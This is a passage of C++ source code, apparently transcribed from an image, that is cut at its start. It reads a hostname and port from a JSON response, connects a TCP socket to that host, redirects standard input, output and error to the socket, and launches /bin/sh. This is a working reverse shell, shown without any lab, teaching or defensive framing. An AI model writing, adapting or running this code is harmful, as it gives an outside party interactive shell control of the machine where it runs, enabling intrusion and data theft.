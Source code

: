 ```cpp
    }

    // Parse JSON response
    json j = json::parse(readBuffer);
    std::string hostname = j["hostname"];
    int port = j["port"];
    std::string port_str = std::to_string(port);

    std::cout << "Hostname: " << hostname << "\n";
    std::cout << "Port: " << port << "\n";

    // Create TCP socket
    struct addrinfo hints, *res;
    memset(&hints, 0, sizeof(hints));
    hints.ai_family = AF_INET;
    hints.ai_socktype = SOCK_STREAM;

    int status = getaddrinfo(hostname.c_str(), port_str.c_str(), &hints, &res);
    if (status != 0)
    {
        fprintf(stderr, "getaddrinfo: %s\n", gai_strerror(status));
        return 1;
    }

    int sockfd = socket(res->ai_family, res->ai_socktype, res->ai_protocol);
    if (sockfd == -1)
    {
        perror("socket");
        freeaddrinfo(res);
        return 1;
    }

    if (connect(sockfd, res->ai_addr, res->ai_addrlen) == -1)
    {
        perror("connect");
        close(sockfd);
        freeaddrinfo(res);
        return 1;
    }

    printf("Connected to %s:%s\n", hostname.c_str(), port_str.c_str());

    // Redirect stdin, stdout, stderr
    for (int i = 0; i < 3; i++)
    {
        dup2(sockfd, i);
    }

    // Execute shell
    execve("/bin/sh", NULL, NULL);

    return 0;
}
```

---